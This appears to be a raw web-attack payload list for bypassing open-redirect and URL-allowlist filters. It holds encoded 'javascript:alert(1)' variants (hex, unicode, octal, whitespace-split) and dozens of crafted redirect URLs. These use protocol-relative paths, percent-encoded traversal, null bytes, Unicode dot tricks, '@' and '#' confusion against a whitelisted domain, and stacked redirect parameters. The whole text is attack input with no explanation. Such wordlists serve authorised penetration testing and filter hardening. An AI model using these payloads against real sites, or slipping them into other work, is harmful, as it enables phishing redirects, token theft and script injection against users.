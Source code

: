https://:@google.com\@www.whitelisteddomain.tld
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
ja\nva\tscript\r:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
\152\141\166\141\163\143\162\151\160\164\072alert(1)
http://google.com:80#@www.whitelisteddomain.tld/
http://google.com:80?@www.whitelisteddomain.tld/
///example.com/%2e%2e
///example.com/%2e%2e%2f
///example.com/%2f%2e%2e
///example.com/%2f..
///example.com//
//example.com
//example.com/
//example.com/%2e%2e
//example.com/%2e%2e%2f
//example.com/%2f%2e%2e
//example.com/%2f..
//example.com//
//google%00.com
//google%E3%80%82com
//https:///example.com/%2e%2e
//https://example.com/%2e%2e%2f
//https://example.com//
/<>//example.com
/?url=//example.com&next=//example.com&redirect=//example.com&redir=//example.com&rurl=//example.com&redirect_uri=//example.com
/?url=/\/example.com&next=/\/example.com&redirect=/\/example.com&redirect_uri=/\/example.com
/?url=Https://example.com&next=Https://example.com&redirect=Https://example.com&redir=Https://example.com&rurl=Https://example.com&redirect_uri=Https://example.com
/\/\/example.com/
/\/example.com/
/example.com/%2f%2e%2e
/http://%67%6f%6f%67%6c%65%2e%63%6f%6d
/http://example.com
/http:/example.com
/https:/%5cexample.com/
/https://%09/example.com
/https://%5cexample.com
/https:///example.com/%2e%2e
/https:///example.com/%2f%2e%2e
/https://example.com
/https://example.com/
/https://example.com/%2e%2e
/https://example.com/%2e%2e%2f
/https://example.com/%2f%2e%2e
/https://example.com/%2f..
/https://example.com//
/https:example.com
/redirect?url=//example.com&next=//example.com&redirect=//example.com&redir=//example.com&rurl=//example.com&redirect_uri=//example.com
/redirect?url=/\/example.com&next=/\/example.com&redirect=/\/example.com&redir=/\/example.com&rurl=/\/example.com&redirect_uri=/\/example.com
/redirect?url=Https://example.com&next=Https://example.com&redirect=Https://example.com&redir=Https://example.com&rurl=Https://example.com&redirect_uri=Https://example.com
